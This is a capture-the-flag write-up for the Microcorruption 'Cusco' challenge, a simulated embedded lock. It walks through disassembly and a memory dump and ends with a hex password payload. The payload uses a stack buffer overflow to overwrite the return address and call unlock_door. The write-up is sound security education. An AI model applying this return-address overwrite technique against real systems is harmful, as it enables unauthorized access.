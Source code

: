 # MICROCORRUPTION

## Cusco Writeup

Author :[Udit Prasad](https://github.com/uditpd3000)

### Walkthrough

Main function was calling Login function so i explored the Login function where i found this.
```
4524:  0f93           tst	r15
4526:  0524           jz	#0x4532 <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	#0x4536 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
```
and r15 was always 0 after execution of `test_password_valid` function. So we were simply jumping the `access_door` function.

Now we can think of overwrite and try to call the `unlock_door` function by giving its address in the return address of some function.
when i tried to debug the code with some random password say `AAAAAAAAAAAAAAAAAA`.
Then live memory dump was this at the time of return of login function
```
43e0:   5645 0300 ca45 0000 0a00 0000 3a45 4141   VE...E......:EAA
43f0:   4141 4141 4141 4141 4141 4141 4141 4141   AAAAAAAAAAAAAAAA
```
And stack pointer was pointing at #0x43fe.
So we can use stack buffer overflow to directly call `unlock_door` whose address is `#0x4446`.
Also it is little endian so keeping in mind this fact lets try the password `9b9b9b9b9b9b9b9b9b9b9b9b9b9b9b9b4644`
And yes it worked.

### Password

```
9b9b9b9b9b9b9b9b9b9b9b9b9b9b9b9b4644
```
